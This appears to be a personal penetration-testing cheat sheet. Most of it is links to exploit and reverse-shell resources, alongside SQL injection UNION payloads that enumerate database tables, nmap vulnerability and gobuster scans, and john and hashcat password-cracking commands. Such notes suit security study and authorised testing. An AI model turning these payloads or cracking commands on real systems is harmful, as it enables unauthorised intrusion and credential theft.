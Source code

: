 # Configuring new machine
Apt-get update && apt-get upgrade <br />
Apt-get dist-upgrade <br />
### Installing rdp
Apt-get install xrdp<br /><br />
After xrdp is installed you can start the server with the following command:<br />
Service xrdp start<br />
Service xrdp-sesman start <br />
update-rc.d xrdp enable <br />

### Install Terminator
sudo apt-get install terminator


### XSS
Cheatsheet: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

### SQL Injection
Cheatsheet: https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/
' UNION select 1 from information_schema.tables # <br />
' UNION select 1,2 from information_schema.tables #<br />
' UNION select 1,2,3 from information_schema.tables #

' UNION select 1,table_schema,table_name from information_schema.tables #
' UNION select 1,table_name,column_name from information_schema.columns #
### Nmap
Scan for vulnerabilities: nmap -Pn --script vuln 10.x.x.x

### RSA
https://github.com/ius/rsatool<br />
https://github.com/Ganapati/RsaCtfTool

### SSH
https://medium.com/bugbountywriteup/cracking-ssh-private-key-passphrase-459ba17e8d5d


### HASH
Identify hashes: https://hashes.com/en/tools/hash_identifier<br />
Tool to identify hashes: https://gitlab.com/kalilinux/packages/hash-identifier/-/tree/kali/master <br />
- *wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py*<br /> 
- *python3 hash-id.py*
- https://www.hackingarticles.in/beginner-guide-john-the-ripper-part-1/
- john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-sha1 crack.txt
- hashcat -m 1410 -a 0 hash:salt --username test_user /usr/share/wordlists/rockyou.txt - sha256 with salt
- https://medium.com/infosec-adventures/identifying-and-cracking-hashes-7d580b9fd7f1
### Active Directory
PowerView-3.0 tips and tricks https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

### Ghostcat
https://github.com/00theway/Ghostcat-CNVD-2020-10487

### Steganogrphy
https://pequalsnp-team.github.io/cheatsheet/steganography-101 <br />
https://github.com/DominicBreuker/stego-toolkit

### Java Deserialization Vulnerabilities
https://github.com/joaomatosf/jexboss

### commands
sudo -l -U user <br />
https://gtfobins.github.io/

### Shell
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md  <br />
https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet


### command injection 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md

 ### Gobuster
  gobuster dir -u xxx.xx.x.x -w /usr/share/wordlists/dirb/common.txt     
### other
Enable or disable protocols, ciphers, hashes and key exchange algorithms on Windows Server 2008, 2012, 2016 and 2019 : https://www.nartac.com/Products/IISCrypto
